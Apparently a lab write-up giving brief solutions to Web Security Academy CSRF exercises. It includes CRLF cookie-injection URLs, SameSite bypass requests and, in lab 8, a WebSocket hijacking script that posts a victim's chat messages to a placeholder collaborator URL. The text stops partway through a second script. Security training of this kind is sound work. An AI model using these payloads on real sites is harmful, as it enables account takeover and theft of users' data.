
## Labs
### 1. CSRF where token validation depends on request method  
```
Сhange request method.
```

### 2. CSRF where token validation depends on token being present
```
Just delete CSRF token.
```

### 3. CSRF where token is not tied to user session
```
Before using CSRF token in request, check it in HTML code and perform a CSRF attack with it.
```

### 4. CSRF where token is tied to non-session cookie  
>Observe LastSearchTerm in Set-Cookie header. Change it to /?search=w;%0aSet-Cookie:+csrfKey=YOUR_KEY and create the next payload to set this key to victim:
```
<script>
location="https://xxx.web-security-academy.net/?search=w;%0aSet-Cookie:+csrfKey=YOUR_KEY"
</script>
```
>Now simply generate CSRF PoC and send it.

### 5. CSRF where token is duplicated in cookie  
>Same as previous  
```
/?search=w%0d%0aSet-Cookie:%20csrf=kek%3b%20SameSite=None
```

### 6. SameSite Lax bypass via method override
Change request method to GET and add _method=POST parameter:
```
/my-account/change-email?email=ww%40gmail.com&_method=POST
```

### 7. SameSite Strict bypass via client-side redirect
```
/post/comment/confirmation?postId=7../../../my-account/change-email?email=ww%40gmail.com%26submit=1
```

### 8. SameSite Strict bypass via sibling domain
>Observe there is cms-xxx.web-security-academy.net domain. Craft the next payload and full URL-encode it.
```
<script>
    var ws = new WebSocket('wss://your-websocket-url/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
>Create the second payload and send it to victim:
```
<script>
```